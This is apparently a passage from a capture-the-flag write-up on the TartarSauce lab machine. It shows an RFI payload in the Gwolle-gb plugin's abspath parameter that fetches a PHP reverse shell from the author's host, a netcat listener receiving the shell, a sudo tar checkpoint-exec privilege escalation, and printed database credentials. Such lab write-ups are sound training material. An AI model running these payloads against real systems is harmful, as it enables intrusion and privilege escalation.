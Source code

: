 
If I do the same with tartarsauce and my local IP:
``http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.32/phprev.php`` I receive the requests:
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [09/Aug/2021 21:09:26] code 404, message File not found
10.10.10.88 - - [09/Aug/2021 21:09:26] "GET /phprev.phpwp-load.php HTTP/1.0" 404 -
```

Which means I don't need to provide any file name, it's already fetching `wp-load.php`, I can just move my `phprev.php` to `wp-load.php` to spawn a shell.
```bash
$ rlwrap -cArf . nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.88] 60854
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 11:42:32 up 19:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1189): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TartarSauce:/$
```
# Getting user with tar
If I list what `sudo` permissions www-data has:
```bash
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Exploiting sudo perms on `tar`:
```bash
www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
whoami
onuma
```

# Dumping MySQL
I see `config.php` in wp directory in web-root. It contains username and password for MySQL database.
```bash
onuma@TartarSauce:/var/www/html/webservices/wp$ cat wp-config.php
<?php
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```